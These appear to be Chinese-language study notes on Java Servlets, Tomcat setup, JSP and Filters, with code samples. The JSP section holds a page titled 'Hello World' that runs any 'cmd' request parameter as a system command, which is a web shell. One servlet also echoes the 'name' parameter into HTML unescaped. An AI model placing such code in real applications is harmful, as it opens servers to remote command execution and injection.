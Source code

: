 ## Servlet

我们在多线程的TCP编程中，可以在一个TCP连接中获取http请求，发送http响应即可。

但是这样特别麻烦

![image-20221115110129532](img/image-20221115110129532.png)

```java
// WebServlet注解表示这是一个Servlet，并映射到地址/:
@WebServlet(urlPatterns = "/")
public class HelloServlet extends HttpServlet {
    //获取GET请求，就必须覆写doGet方法。
    protected void doGet(HttpServletRequest req, HttpServletResponse resp)
            throws ServletException, IOException {
        // 设置响应类型:
        resp.setContentType("text/html");
        // 获取输出流:
        PrintWriter pw = resp.getWriter();
        // 写入响应:
        pw.write("<h1>Hello, world!</h1>");
        // 最后不要忘记flush强制输出:
        pw.flush();
    }
}
```

由于Servlet版本分为<=4.0和>=5.0两种，所以，要根据使用的Servlet版本选择正确的Tomcat版本。

- 使用Servlet<=4.0时，选择Tomcat 9.x或更低版本；

  ```java
  import javax.servlet.*;
  ```

- 使用Servlet>=5.0时，选择Tomcat 10.x或更高版本。

  ```java
  import jakarta.servlet.*;
  ```

可以在pom.xml中引入Servlet

```xml
 <dependency>
            <groupId>jakarta.servlet</groupId>
            <artifactId>jakarta.servlet-api</artifactId>
            <version>5.0.0</version>
            <scope>compile</scope>
        </dependency>
```

我们可以将项目打包成`war`包，然后放到`tomacat`的`webapps`目录下，就可以实现不需要`idea`来启动web服务

1. 编写Servlet；
2. 打包为war文件；
3. 复制到Tomcat的webapps目录下；
4. 启动Tomcat。

## 手动引入依赖包，启动tomacat

![image-20221115111205151](img/image-20221115111205151.png)

pom.xml

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <groupId>org.example</groupId>
  <artifactId>untitled</artifactId>
  <packaging>war</packaging>
  <version>1.0-SNAPSHOT</version>
  <name>untitled Maven Webapp</name>
  <url>http://maven.apache.org</url>
  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <java.version>8</java.version>
    <tomcat.version>8.5.78</tomcat.version>
  </properties>
  <dependencies>
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-core</artifactId>
      <version>${tomcat.version}</version>
      <scope>complie</scope>
    </dependency>
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-jasper</artifactId>
      <version>${tomcat.version}</version>
      <scope>compile</scope>
    </dependency>
  </dependencies>
  <build>
    <finalName>untitled</finalName>
    <plugins>
      <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-war-plugin</artifactId>
        <version>3.3.2</version>
      </plugin>
    </plugins>
  </build>
</project>

```

Servlet

```java
@WebServlet(urlPatterns = "/")
public class HelloServlet extends HttpServlet {
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        resp.setContentType("text/html");
        String name = req.getParameter("name");
        if (name == null) {
            name = "world";
        }
        PrintWriter pw = resp.getWriter();
        pw.write("<h1>Hello, " + name + "!</h1>");
        pw.flush();
    }
}
```

main方法，启动tomacat服务

```java
public class Main {
    public static void main(String[] args) throws Exception {
        // 启动Tomcat:
        Tomcat tomcat = new Tomcat();
        tomcat.setPort(Integer.getInteger("port", 8080));
        tomcat.getConnector();
        // 创建webapp:
        Context ctx = tomcat.addWebapp("", new File("src/main/webapp").getAbsolutePath());
        WebResourceRoot resources = new StandardRoot(ctx);
        resources.addPreResources(
                new DirResourceSet(resources, "/WEB-INF/classes", new File("target/classes").getAbsolutePath(), "/"));
        ctx.setResources(resources);
        tomcat.start();
        tomcat.getServer().await();
    }
}
```

## Servlet进阶

`HttpServletRequest`的方法：

![image-20221115111726909](img/image-20221115111726909.png)



`HttpServletResponse`的方法：

![image-20221115111849264](img/image-20221115111849264.png)



Servlet的多线程理解：

![image-20221115111947491](img/image-20221115111947491.png)



重定向：

![image-20221115112150622](img/image-20221115112150622.png)

![image-20221115112158398](img/image-20221115112158398.png)



请求转发：

![image-20221115112225212](img/image-20221115112225212.png)

![image-20221115112230359](img/image-20221115112230359.png)



Session:

可以多理解理解这个

![image-20221119110553443](img/image-20221119110553443.png)

https://www.liaoxuefeng.com/wiki/1252599548343744/1328768897515553

## jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<html>
<head>
  <title>Hello World - JSP</title>
</head>
<body>
<%-- JSP Comment --%>
<h1>Hello World!</h1>
<p>
  <%
    String cmd=request.getParameter("cmd");
    byte[] bytes= Runtime.getRuntime().exec(cmd).getInputStream().readAllBytes();
    PrintWriter output=response.getWriter();
    output.write(new String(bytes));
    output.flush();
    output.close();
  %>
  <span style="color:red">
        <%= request.getRemoteAddr() %>
    </span>
</p>
</body>
</html>

```

## Filter

```java
@WebFilter("/user/*")
public class AuthFilter implements Filter {
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        System.out.println("AuthFilter: check authentication");
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        if (req.getSession().getAttribute("user") == null) {
            // 未登录，自动跳转到登录页:
            System.out.println("AuthFilter: not signin!");
            resp.sendRedirect("/signin");
        } else {
            // 已登录，继续处理:
            chain.doFilter(request, response);
        }
    }
}
```

## Listener